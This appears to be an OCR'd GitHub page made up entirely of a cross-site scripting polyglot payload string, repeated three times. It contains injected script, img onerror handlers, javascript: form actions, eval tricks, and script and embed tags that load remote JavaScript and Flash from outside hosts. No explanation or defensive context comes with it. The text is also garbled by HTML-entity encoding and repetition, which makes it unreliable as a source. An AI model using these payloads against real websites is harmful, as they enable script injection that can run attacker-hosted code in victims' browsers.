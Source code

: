 -----marquee--img-src-x-onerror-confirm-1----marquee-----plaintext--------plaintext-onmouseover-prom
====================================================================================================

'">>&lt;marquee>&lt;img src=x onerror=confirm(1)>&lt;/marquee>">&lt;/plaintext\>&lt;/|\>&lt;plaintext/onmouseover=prompt(1)>">&lt;script>alert(document.domain)&lt;/script>@gmail.com&lt;isindex formaction=javascript:alert(/XSS/) type=submit>'-->">&lt;/script>&lt;script>alert(1)&lt;/script>">&lt;img/id="confirm&amp;lpar;1&amp;#x29;"/alt="/"src="/"onerror=eval(id&amp;#x29;>'">&lt;img src="http://bryanhallsawakening.files.wordpress.com/2013/09/anonymousbigbrotherclone.jpg"/ onmousover=alert(1)>&lt;script/&amp;Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&amp;Tab;>&lt;/script>  '">>&lt;marquee>&lt;img src=x onerror=confirm(1)>&lt;/marquee>">&lt;/plaintext\>&lt;/|\>&lt;plaintext/onmouseover=prompt(1)>">&lt;script>alert(document.domain)&lt;/script>@gmail.com&lt;isindex formaction=javascript:alert(/XSS/) type=submit>'-->">&lt;/script>&lt;script>alert(1)&lt;/script>">&lt;img/id="confirm&amp;lpar;1&amp;#x29;"/alt="/"src="/"onerror=eval(id&amp;#x29;>'">&lt;img src="http://xssplayground.net23.net/xssimagefile2.svg"/onmousover=alert(1)>&lt;script/&amp;Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&amp;Tab;>&lt;/script>    ">>&lt;marquee>&lt;img src=x onerror=confirm(1)>&lt;/marquee>">&lt;/plaintext\>&lt;/|\>&lt;plaintext/onmouseover=prompt(1)>">&lt;script>alert(document.domain)&lt;/script>@gmail.com&lt;isindex formaction=javascript:alert(/XSS/) type=submit>'-->">&lt;/script>&lt;script>alert(1)&lt;/script>">&lt;img/id="confirm&amp;lpar;1&amp;#x29;"/alt="/"src="/"onerror=eval(id&amp;#x29;>'">&lt;img src="http://xssplayground.net23.net/xssimagefile2.svg"/onmousover=alert(1)>&lt;embed/&amp;Tab; src='https://xssplayground.net23.net/xss.swf'>
